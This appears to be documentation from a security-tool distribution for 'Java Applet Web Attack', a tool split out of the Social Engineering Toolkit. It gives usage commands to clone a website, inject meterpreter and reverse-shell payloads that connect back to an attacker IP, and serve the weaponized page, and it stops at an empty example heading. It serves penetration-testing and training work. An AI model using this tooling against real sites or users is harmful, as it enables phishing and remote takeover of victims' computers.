 Java Applet Web Attack
======================

Website
-------

<https://github.com/adhdproject/java-web-attack>

Description
-----------

This project aims to break out the Java Applet Web Attack method from the Social Engineering Toolkit into a standalone tool.

Install Location
----------------

`/opt/java-web-attack/`

Usage
-----

NOTE: You will want to run all of the commands in this tutorial as root.  To become root run the command `sudo su -`.

`~#` **`cd /opt/java-web-attack`**

`/opt/java-web-attack#` **`./clone.sh <url to clone>`**

`/opt/java-web-attack#` **`./weaponize.py -h`**

        Usage:
          ./weaponize.py [-w <payload>] [-l <payload>] [-m <payload>] <html_file> <ip>
          ./weaponize.py -h

        Options:
          -h            Shows this help message.
          -w            Specifies the Windows payload to use. [default: windows/meterpreter/reverse_tcp]
          -l            Specifies the Linux payload to use. [default: linux/x86/meterpreter/reverse_tcp]
          -m            Specifies the Mac OS X payload to use. [default: osx/x86/shell_reverse_tcp]
          <payload>     The payload string as expected by msfvenom. Run `msfvenom -l payloads` to see all choices.
          <html_file>   The HTML file to insert the Java payload.
          <ip>          The IP address the payload should connect back to.

        Note: The default ports used for the Windows, Linux, and Mac listeners are 3000, 3001, and 3002 respectively.

`/opt/java-web-attack#` **`./serve.sh`**

Video Walkthrough
-----------------

<iframe src="https://onedrive.live.com/embed?cid=8D6C4317A39E3D29&resid=8D6C4317A39E3D29%2155668&authkey=AApvJtEtXsg4BMI" width="320" height="180" frameborder="0" scrolling="no" allowfullscreen sandbox="allow-scripts allow-pointer-lock allow-forms allow-same-origin"></iframe>

Example 1: Cloning a URL
------------------------
